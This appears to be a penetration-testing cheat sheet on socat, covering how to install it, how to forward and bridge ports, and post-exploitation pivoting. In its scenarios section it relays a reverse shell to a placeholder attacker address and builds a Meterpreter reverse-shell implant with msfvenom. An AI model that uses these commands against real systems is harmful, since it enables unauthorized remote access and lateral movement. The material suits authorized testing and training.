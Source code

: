 # Socat

Search Tag(s): #post-exploitation #pivot #port-forward #scenarios #cross-platform #socat

## 01 - Setup

### 1.1 - Package Manager

```
$ sudo apt install -y socat
```

You can just download the `.deb` file and extract it.

```
$ apt download socat

$ dpkg -x socat_*.deb work
```

Then you can just execute the program as it was portable.

```
$ work/usr/bin/socat -V
```

### 1.2 - Download Pre-compiled Binaries

#### 1.2.1 - Linux

```
$ wget -qO socat https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.bin && chmod 755 socat

$ curl -o socat https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.bin && chmod 755 socat
```

#### 1.2.2 - Windows

Download the pre-compiled binary in command prompt.

```
C:\> certutil -urlcache -split -f https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe socat.exe

C:\> curl -o socat.exe https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe
```

Download the pre-compiled binary in PowerShell.

```
PS C:\> Invoke-WebRequest https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx64.exe -OutFile socat.exe
```

### 1.3 - Compile

#### 1.3.1 - Linux

```
$ git clone https://github.com/3ndG4me/socat.git && \
cd socat && ./configure && make && make install
```

#### 1.3.2 - Windows

TODO: Fill this info

## 02 - Usage

### 2.1 - Open Two Listening Ports

```
> socat -v tcp-listen:<local_PORT_1> tcp-listen:<local_PORT_2>
```

### 2.2 - Redirect Port

```
> socat tcp-listen:<local_PORT>,reuseaddr tcp-connect:<target_IP>:<target_PORT>
```

### 2.3 - Bridge Two Hosts

```
> socat -v tcp-connect:<target_IP_1>:<target_PORT_1>,reuseaddr tcp-connect:<target_IP_2>:<target_PORT_2>
```

## 03 - Scenarios

### 3.1 - Port Forward Reverse Shell

```
> socat tcp4-listen:<pivot_PORT>,fork tcp4:<attacker_IP>:<attacker_PORT>
```

Generate a reverse shell with the IP address of the compromised machine to pivot from.

```
userware@hackware-os:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<pivot_IP> lport=<pivot_PORT> -f exe -o implant.exe
```

### 3.2 - Bind Web Server Port

```
> socat tcp-listen:8443,reuseaddr tcp-connect:<webserver_IP>:443
```

Then use `curl` to check connect to the pivot server.

```
userware@hackware-os:~$ curl -k https://<pivot_IP>:8443
```

---
## References

### Github

- [3ndG4me: Socat Source Repository](https://github.com/3ndG4me/socat)

- [runsisi: Socat Source Repository](https://github.com/runsisi/socat)

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

- [Ironhackers: Port Forwarding Cheatsheet](https://ironhackers.es/en/cheatsheet/port-forwarding-cheatsheet/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [Artkond Pivoting Guide](https://artkond.com/2017/03/23/pivoting-guide/)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [SevenLayers: Socat Reverse Shell Relay](https://sevenlayers.com/index.php/blog/500-socat-reverse-shell-relay)

- [CyberSec Wikimandine: Socat](https://amandinegh.gitbook.io/cyberadventure/internal/pivoting-tunneling-and-port-forwarding/socat)